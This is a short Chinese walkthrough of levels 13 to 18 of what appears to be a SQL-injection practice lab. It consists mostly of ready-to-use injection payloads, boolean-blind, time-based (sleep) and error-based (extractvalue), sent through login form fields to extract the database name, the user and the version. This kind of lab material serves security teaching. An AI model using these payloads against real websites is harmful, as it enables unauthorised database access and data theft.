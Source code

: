 
- 第十三关

```
uname=admin') and ascii(substr((database()),1,1))=115 #
&passwd=admin
&submit=Submit
```

![](https://ae01.alicdn.com/kf/H7cf7e416cd50414da0bd4d927ec2598e3.jpg)


- 第十四关

```
uname=admin" and ascii(substr((database()),1,1))=115 #
&passwd=admin
&submit=Submit

uname=admin" and extractvalue(1,concat('~',user(),'~')) #
&passwd=admin 
&submit=Submit
```

![](https://ae01.alicdn.com/kf/H138b63b56719481f8e6ecfdb7902bedfj.jpg)

- 第十五关

```
uname=admin' and If(ascii(substr(database(),1,1))=115,sleep(5),1) # 
&passwd=admin
&submit=Submit
```

![](https://ae01.alicdn.com/kf/H057e3ebcc50c4386aaa68898a933fa0eT.jpg)

- 第十六关

```
uname=admin") and If(ascii(substr(database(),1,1))=115,sleep(5),1) #
&passwd=admin
&submit=Submit
```
![](https://ae01.alicdn.com/kf/H129bf1d2fe4246f68de6962c995e294dY.jpg)

- 第十七关

```
uname=admin
&passwd=admin' and extractvalue(1,concat('~',user(),'~')) #
&submit=Submit
```
![](https://ae01.alicdn.com/kf/Hd47a227a58c84e20acf91d1f3a11f1322.jpg)

- 第十八关

```
'and extractvalue(1,concat(0x7e,(select @@version),0x7e)) and '1'='1
```
